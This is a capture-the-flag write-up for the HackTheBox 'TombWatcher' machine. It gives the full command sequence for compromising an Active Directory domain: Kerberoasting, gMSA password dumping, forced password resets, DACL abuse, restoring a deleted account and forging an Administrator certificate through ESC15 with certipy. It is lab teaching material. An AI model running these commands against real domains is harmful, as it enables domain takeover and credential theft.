# TombWatcher

```
Difficulty: Medium
Operating System: Windows
Hints: Active Directory, Kerberoasting, ACL Abuse, GMSA, DACL Abuse, Cert-based Escalation

```

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
| :--- | :--- | :--- | :--- |
| 1 | `john` | **GenericAll on Deleted Object** | Used `john`'s `GenericAll` privilege to restore the soft-deleted `cert_admin` account. |
| 2 | `cert_admin` | **Password Reset** | With the restored object, reset the `cert_admin` password using `rpcclient`, gaining full control over the account. |
| 3 | `Administrator` | **ESC15 Vulnerability** | Used `certipy-ad` to detect an **ESC15 vulnerability** on the `WebServer` certificate template. Exploited this to request a certificate as the `Administrator`. |
| 4 | `Domain Admin` | **Certificate Authentication** | Used the forged `administrator.pfx` certificate to authenticate as a Domain Administrator and perform privileged actions, ultimately leading to a full domain compromise. |


## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:

```
nmap TombWatcher.htb -sV -A
PORT      STATE SERVICE         VERSION
53/tcp    open  domain          Simple DNS Plus
80/tcp    open  http            Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec    Microsoft Windows Kerberos
135/tcp   open  msrpc           Microsoft Windows RPC
139/tcp   open  netbios-ssn     Microsoft Windows netbios-ssn
389/tcp   open  ldap            Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http      Microsoft Windows RPC over HTTP
636/tcp   open  ssl/ldap        Microsoft Windows Active Directory LDAP over TLS
3268/tcp  open  ldap            Microsoft Windows AD Global Catalog
3269/tcp  open  ssl/ldap        Microsoft Windows AD GC over TLS
5985/tcp  open  http            Microsoft HTTPAPI httpd 2.0 (WinRM)
Domain: tombwatcher.htb
Hostname: DC01.tombwatcher.htb

```

Add to /etc/hosts:
```
10.10.11.72  DC01.tombwatcher.htb TombWatcher.htb
```
Foothold
The initial credentials provided are: henry : H3nry_987TGV!

User
Method 1 - Kerberoasting with ACL Abuse (from henry to alfred)
Recon as Henry: Use bloodhound-python to gather Active Directory information.

Bash
```
bloodhound-python -u henry -p 'H3nry_987TGV!' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip
```
This reveals that the Alfred user has WriteSPN rights, which is exploitable via Kerberoasting.

Kerberoasting: Use targetedKerberoast.py to add a Service Principal Name (SPN) to Alfred and dump the Kerberos TGS hash.

Bash
```
python targetedKerberoast.py -v -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'

```
Crack Hash: Crack the dumped hash using John the Ripper with a wordlist.

**Access Restricted by HackTheBox Rules**


Bash

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
The password for Alfred is baXXXXXXXll.

```



Method 2 - GMSA Password Dump (from alfred to ansible_dev$, then SAM and john)
Recon as Alfred: Re-run bloodhound-python with Alfred's newly acquired credentials.

Bash

```
bloodhound-python -u alfred -p 'baXXXXXXXll' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip

```



No immediate Domain Admin path is found, but it's identified that the Infrastructure group is modifiable.




Infrastructure Group Escalation: Add Alfred to the Infrastructure group using bloodyAD.


Bash

```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u alfred -p 'baXXXXXXXll' add groupMember INFRASTRUCTURE alfred
```



GMSA Password Dump: Use gMSADumper.py to find and dump Group Managed Service Account (GMSA) blobs.

Bash
```
python gMSADumper.py -u alfred -p baXXXXXXXll -d tombwatcher.htb
```
This shows that the Infrastructure group can read the password for ansible_dev$.



Change Passwords via GMSA: Utilize bloodyAD to change the passwords for the SAM and john accounts by leveraging the ansible_dev$ GMSA account's dumped credentials.







Bash

```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u 'ansible_dev$' -p ':XXXXXXXXXXX…' set password SAM 'XXXXXXXX'
```





```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u SAM -p 'XXXXXXXXXX' set password john 'XXXXXXXXx'

```




This grants access to the john account, and user.txt can be retrieved.




**User Flag**




## Root

**Method 1**

Once we log in as john, following our standard approach, we can run WinPEAS looking for possible privilege escalation vectors. After we run WinPEAS, we can notice a path for Active Directory Certificate Services (ADCS) abuse.

DACL Abuse for OU Takeover (from john to cert_admin)
DACL Abuse: Grant john FullControl over the OU=ADCS,DC=TOMBWATCHER,DC=HTB using impacket-dacledit.

Bash
```
impacket-dacledit \
  -action write \
  -rights FullControl \
  -inheritance \
  -principal john \
  -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' \
  tombwatcher.htb/SAM:'XXXXXXXXXXXXX'
```

This gives john control over the ADCS Organizational Unit.

Restore & Change cert_admin Password: Inside an Evil-WinRM session as john, identify and restore the deleted cert_admin account, enable it, and reset its password.

PowerShell
```
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
Enable-ADAccount -Identity cert_admin
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString "jhvc@4569@" -AsPlainText -Force)
```

Then, confirm the password change for cert_admin using bloodyAD.

Bash

```

bloodyAD --host '10.10.11.72' -d tombwatcher.htb \
  -u john -p 'jhvc@4569@' set password cert_admin 'jhvc@4569@'

```
The cert_admin account is now controlled.

Certificate-Based Privilege Escalation (from cert_admin to Administrator)
Cert Enumeration: Use certipy to enumerate the Certificate Authority (CA) and available certificate templates, looking for vulnerabilities.

Bash
```
certipy find -u cert_admin -p "jhvc@4569@" -dc-ip 10.10.11.72 -vulnerable
```
This reveals the WebServer template with "Enrollee supplies subject: True" and an "ESC15 vulnerability detected".

**Plan A (ESC15 / ESC1): Request a certificate with Client**Authentication and an Administrator UPN using certipy.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' \
  -ca 'tombwatcher-CA-1' \
  -template 'WebServer' \
  -upn 'administrator@tombwatcher.htb' \
  -application-policies 'Client Authentication'
```
Then, use the generated PFX file to authenticate as the Administrator and obtain a shell.



Bash
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72 -ldap-shell
```
From here, the Administrator's password can be changed, leading to full Domain Administrator access.

**Plan B (Certificate Request Agent Attack - Alternative): If Plan A is not feasible, obtain an Agent certificate.**

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' -ca 'tombwatcher-CA-1' \
  -template 'WebServer' \
  -application-policies 'Certificate Request Agent'
```
Then, impersonate the Administrator by requesting a user certificate on their behalf.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' -ca 'tombwatcher-CA-1' \
  -template 'User' \
  -pfx cert_admin.pfx \
  -on-behalf-of 'tombwatcher\Administrator'
```
Finally, authenticate using the on-behalf-of certificate to retrieve the Administrator's TGT, ccache, or NT hash, granting Domain Administrator privileges.

Bash
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72
```


**Method 2**

The name cert_admin immediately suggested a connection to Active Directory Certificate Services (ADCS). I used certipy-ad to enumerate ADCS for vulnerabilities with the new cert_admin credentials.

Bash

```
certipy-ad find -u cert_admin -p Password01! -dc-ip 10.10.11.72 -vulnerable -stdout -target-ip 10.10.11.72
```

Certipy successfully identified an ESC15 vulnerability on the WebServer certificate template. This vulnerability allows a user with enrollment rights to request a certificate with a custom Application Policy (EKU), which can be abused for authentication.

To exploit this, I requested a new certificate using certipy-ad, impersonating the Administrator user. I injected the Client Authentication EKU and targeted the vulnerable WebServer template.

Bash

```
certipy-ad req -u cert_admin -p Password01! -dc-ip 10.10.11.72 -target DC01.tombwatcher.htb -ca "tombwatcher-CA-1" 
-application-policies 'Client Authentication' -template WebServer -upn Administrator@tombwatcher.htb
```

This command generated a valid administrator.pfx certificate.


**Domain Compromise**

With the forged administrator.pfx certificate, I used certipy-ad's auth module to authenticate as the Domain Administrator. This provided a fully privileged shell (ldap-shell) and confirmed the full compromise of the domain.

Bash

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.72 -ldap-shell
```


From this privileged position, I could add john to the Domain Admins group, dump all domain hashes by retrieving the NTDS.dit file, and access the administrator's profile to retrieve the root.txt flag, successfully rooting the machine.




**Pwned! Tombwatcher**

-->